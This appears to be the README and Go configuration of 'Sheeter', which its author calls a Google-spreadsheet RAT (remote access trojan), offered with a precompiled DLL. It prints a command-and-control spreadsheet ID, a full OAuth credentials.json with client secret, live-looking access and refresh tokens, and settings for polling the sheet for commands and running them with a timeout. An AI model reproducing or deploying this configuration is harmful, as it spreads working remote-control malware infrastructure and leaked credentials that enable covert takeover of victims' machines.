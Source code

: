    _____ _    _ ______ ______ _______ ______ _____  
  / ____| |  | |  ____|  ____|__   __|  ____|  __ \ 
 | (___ | |__| | |__  | |__     | |  | |__  | |__) |
  \___ \|  __  |  __| |  __|    | |  |  __| |  _  / 
  ____) | |  | | |____| |____   | |  | |____| | \ \ 
 |_____/|_|  |_|______|______|  |_|  |______|_|  \_\
                                                    

		Sheeter - A google spreadsheet rat
		
		
This is the Default configured dll that i already compiled.
The spread sheet that it uses is:
https://docs.google.com/spreadsheets/d/1X1ATfmiV_P_ZYyhFSdAKDklPQSYq-9DCBfZtLR5qmes/edit#gid=0

ID:
1X1ATfmiV_P_ZYyhFSdAKDklPQSYq-9DCBfZtLR5qmes

credentials.json:
{"installed":{"client_id":"1083258992139-51ntmqqalss55vde1hrf7t1h29hot4fb.apps.googleusercontent.com","project_id":"sheeter-1602291888463","auth_uri":"https://accounts.google.com/o/oauth2/auth","token_uri":"https://oauth2.googleapis.com/token","auth_provider_x509_cert_url":"https://www.googleapis.com/oauth2/v1/certs","client_secret":"DN6jeohgy_C_5-aIh2udXelA","redirect_uris":["urn:ietf:wg:oauth:2.0:oob","http://localhost"]}}

Configuration:
var configFile = []byte("{\"installed\":{\"client_id\":\"1083258992139-51ntmqqalss55vde1hrf7t1h29hot4fb.apps.googleusercontent.com\",\"project_id\":\"sheeter-1602291888463\",\"auth_uri\":\"https://accounts.google.com/o/oauth2/auth\",\"token_uri\":\"https://oauth2.googleapis.com/token\",\"auth_provider_x509_cert_url\":\"https://www.googleapis.com/oauth2/v1/certs\",\"client_secret\":\"DN6jeohgy_C_5-aIh2udXelA\",\"redirect_uris\":[\"urn:ietf:wg:oauth:2.0:oob\",\"http://localhost\"]}}")

var googleToken = "{\"access_token\":\"ya29.a0AfH6SMA3gJ0i39RmR-prdosCk-0A5mCqe3wNIUafkiuN-BXfkjiTGtYe-FN5EzjpEt3d5_3-zlSpjruMSI9qV_3PFMRP68mO2wc4LZhLM004kgVlLUWm697jQcpNNONOTpiv82UsGpUy7kpg1_bfdUr_W4rY31VKya8\",\"token_type\":\"Bearer\",\"refresh_token\":\"1//03ZJbZ8XKiA2XCgYIARAAGAMSNwF-L9IrLAOowRmAcPhDrcX9VPFB6B7kePaYbyYQ_MhKwhf_uZkVlCLSFajczTlVukckSQKQkSA\",\"expiry\":\"2020-10-10T05:16:56.4063201+03:00\"}"


var spreadsheetID = "1X1ATfmiV_P_ZYyhFSdAKDklPQSYq-9DCBfZtLR5qmes"
var spreadsheetJsonTmplate = "https://spreadsheets.google.com/feeds/cells/%s/1/public/full?alt=json"
var googleSpreadSheetPrivURL = "https://www.googleapis.com/auth/spreadsheets"

// Group 1 should be the row
// Group 2 should be the col
// Group 3 should be the value
var regexCompiled, _ = regexp.Compile("\\\"gs\\$cell\\\":{\\\"row\\\":\\\"(.*?)\\\",\\\"col\\\":\\\"(.*?)\\\",\\\"inputValue\\\":\\\"(.*?)\\\",\\\".*?\\\"}}")

var flagSID = "x"

var loopSleepSeconds = 10 * time.Second
var commandTimeout = 60 * time.Second

var writeToDisk = true
var outputFile = "c:\\temp\\output.txt"